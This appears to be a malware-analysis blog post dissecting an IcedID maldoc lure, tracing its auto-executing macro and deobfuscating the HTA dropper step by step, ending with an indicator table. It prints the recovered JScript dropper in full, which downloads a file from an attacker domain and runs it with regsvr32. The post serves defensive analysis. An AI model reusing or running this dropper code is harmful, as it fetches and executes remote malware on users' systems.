 ```yaml
---
layout: post
title:  "IcedId Maldoc"
---
```


Browsing through [AnyRun](https://app.any.run/tasks/3f121e8d-95d6-4c9f-90e2-bb57a4ddf697/), I found an interesting sample. 


Let's take a look at it.

If you don't have a copy of Office available, it's still easy to analyze with [OleTools](https://github.com/decalage2/oletools) and [CyberChef](https://gchq.github.io/CyberChef/). 

I always like to look inside the doc for any images. This helps me understand the lures used. CyberChef has a recipe to "Extract Files". You can use this to easily preview images. In this case, the image alone makes this *highly suspicious*. This is the traditional "This document was created in an earlier version of Word" lure.  


![18cad07a4fe5e160b924fb4818e3380e.png](../_posts/_resources/d9526c32abc848b597e66e2615191886.png)


Malicious Word documents typically do one of three things:

1. Execute macros
2. Link to a URL containing the malicious payload
3. Exploit Word itself, usually [CVE–2017–11882](https://blog.morphisec.com/microsoft-equation-editor-backdoor) 

Running `olevba -a ingresso.03.26.21.doc` performs triage analysis on the macro and highlights suspicious items. 

![648a2336d5d74ff831b7b742e17dd3b8.png](../_posts/_resources/5f24a20247d84cf7948244b0d9b71c69.png)

There are several things that stand out here that will guide our analysis. The macro:

1. Auto-executes on open
2. Creates a file
3. Executes a shell command
4. Contains encoded/obfuscated strings

To make understanding the macro code easier, I prefer to dump it out to a text file (`olevba ingresso.03.26.21.doc > macro.txt`) and open it up in Notepad++. I love Notepad++ for the language specific syntax coloring, and that selecting text will highlight it elsewhere in the document. These two things help a lot when deobfuscating scripts. 

I take a once over for the full macro, then focus in on one component I find most interesting. If you don't know where to start, the shell command is always a solid choice. 



![6f9193d37b7041b3fb47c3b8ab145ed1.png](../_posts/_resources/c5cb9f692a3040908c3e1e3840d87c3d.png)



What we can see here is that a `wscript.shell` object is stored in a variable called `documentViewTitle`. The `exec` [function](https://www.vbsedit.com/html/5593b353-ef4b-4c99-8ae1-f963bac48929.asp) of this object is then called with the arguments pulled from `ptrMem` and `WExceptionLink`, after using the `Replace()` function to remove the 1s used to obfuscate the code. Looking at these variables, they seem to source from some form object contained in the document. If we use the `oledump` tool, we can see this object.


![9bd3219588cd7345cb28fb79958f8631.png](../_posts/_resources/249176739ae042389500f2e49ed828bf.png)

If we select the appropriate streams, we see the command `c:\windows\explorer.exe c:\users\public\main.hta` come to light.


![a6898a7ea7b51b7543256fd913b14ecb.png](../_posts/_resources/7a0d96156ed2434ab552b1bde522c5a9.png)

Thinking back to our triage of the sample, this HTA file is likely the file that's created by the macro. Zeroing in on that code...



![3ee7508bf8e27fbdf56648d082c01463.png](../_posts/_resources/9380db033d3f4293a99640d326b16b92.png)


We can look up the documentation for the `CreateTextFile` [method](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createtextfile-method) and it tells us that the argument will be the filename, so `borderBorderEx` eventually deobfuscates to `main.hta`, but `queryProc` will be the contents of the file, and much more interesting. 

If we use Notepad++ to select the function `textboxTable` we can find the places it is called in the code, and analyze the contents of the second argument. The second argument to `textboxTable` is the contents of the HTA file. 


![9d44f30bd645a83a3e00fe2c93ae6954.png](../_posts/_resources/df31519e7eb34efd912ef21db61b3f17.png)

Let's follow `argumentExceptionButton` and see what its contents are.


![2c6b410657946e6282c9d47e5720bf9d.png](../_posts/_resources/c6656556ce9a4d74a4be68d974711a42.png)

Essentially, it's this huge word wrap of other variables concatenated. The variables are defined above, so we can do a find and replace - replacing the variable names with their content. Once you've finished with the tedious work, you'll see the HTA file contents. 


![fd36f4d06a247a2ffb08803d348ce962.png](../_posts/_resources/3f87bc7ed60845919527a7df8469cbd2.png)

Once you clean up this code a little, getting rid of the extraneous `+` and `"` symbols, you'll see a long string in the `<div>` tag. One of the things that immediately stands out is the character set and that it ends with an equals sign. Without taking the time to understand any of the decoding algorithm underneath, I have a strong suspicion that it's base64 encoded. Let's test in CyberChef. 


![8a013579e2ded609a263c08262e9c7ae.png](../_posts/_resources/5720f3a32c1c478895a2b0398523255e.png)

It definitely decodes properly, but it looks weird. Applying the "Reverse" recipe will put the characters in the correct order, resulting in the following code that will be executed by the HTA file.

```
new ActiveXObject("wscript.shell").run("regsvr32 c:\\users\\public\\collectionMemory.jpg");
var buttonPasteLeft = new ActiveXObject("scripting.filesystemobject");
try {
    buttonPasteLeft.deletefile("c:\\users\\public\\main.hta");
} catch(nextTrust) {}

var listboxTableRequest = new ActiveXObject("msxml2.xmlhttp");
listboxTableRequest.open("GET", "http://brown-craft-2018.com/fdvdd/sAyRdZ1iUxUFSEiaXlMxv4sYlMVcPX/Oz6qD6um7u2XDeRs0hvyB6/fFfWhs1ayr1Sp4kiHky8LFM/4Cr408QvrXy5Q9LFbjdzVx/naw15?id=bgZ5DeL6cVNx69&id=h6", false);
listboxTableRequest.send();
if (listboxTableRequest.status == 200)  {
    var documentRight = new ActiveXObject("adodb.stream");
    documentRight.open;
    documentRight.type = 1;
    documentRight.write(listboxTableRequest.responsebody);
    documentRight.savetofile("c:\\users\\public\\collectionMemory.jpg", 2);
    documentRight.close;
}
```

This HTA file will retrieve the remote file named `collectionMemory.jpg` and attempt to execute it with `regsvr32`. Unfortunately, by the time Any.Run or myself were able to get to it, it seems like this file no longer exists.


![9ea24f09d0b510a34031a3a537fba29d.png](../_posts/_resources/c324949225cb49aaa82ebafcd05456fb.png)


However, @reecDeep on [Twitter](https://twitter.com/reecdeep/status/1375385369462575106) reported a ***similar*** sample from a few days prior and the follow on payload was uploaded to [tria.ge](https://tria.ge/210326-g3jcevvnd6).


IOC Type|Value
---|------
filename|ingresso.03.26.21.doc
filename|c:\users\public\collectionMemory.jpg
filename|c:\users\public\main.hta
md5|ff39fc0c398db11d51982220d6b7b45c
sha256|d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5
domain|brown-craft-2018[.]com 
ip|45.150.67[.]40 






